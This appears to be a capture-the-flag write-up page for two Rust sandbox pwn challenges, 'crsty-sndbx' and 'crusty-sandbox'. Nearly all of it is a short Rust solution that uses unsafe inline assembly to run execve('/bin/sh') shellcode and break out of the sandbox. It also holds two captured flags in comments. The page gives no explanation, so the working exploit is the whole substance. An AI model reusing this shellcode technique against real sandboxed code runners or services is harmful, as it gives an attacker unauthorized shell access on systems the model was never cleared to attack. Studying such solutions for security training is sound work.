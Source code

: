 ```yaml
---


## Pwn: ##
[crsty-sndbx](#crsty-sndbx)

[crusty-sandbox](#crusty-sandbox)



---
```


### crsty-sndbx
### crusty-sandbox

  * [solution.rs](solution.rs)

```
// NOT the intended solution prob..

#![allow(unsafe_code)]
#![allow(unused_variables)]
pub fn main() { let mut o=0;
unsafe {
asm!("xor %rdx, %rdx\n\tmov $$0x68732f6e69622f2f, %rbx\n\tpush %rbx\n\tmov %rsp, %rdi\n\tpush %rax\n\tpush %rdi\n\tmov %rsp, %rsi\n\tmov $$0x3b, %rax\n\tsyscall" : "=r"(o));
} println!("{}",o); }
trait

// p4{my_sc0re_w@s_286_l3t_me_kn0w_1f_y0u_b3@t_1t_0adad38edc24}
// p4{cuRSed_c0d3-by_d3s1gn_ebf8745b92ef}

```


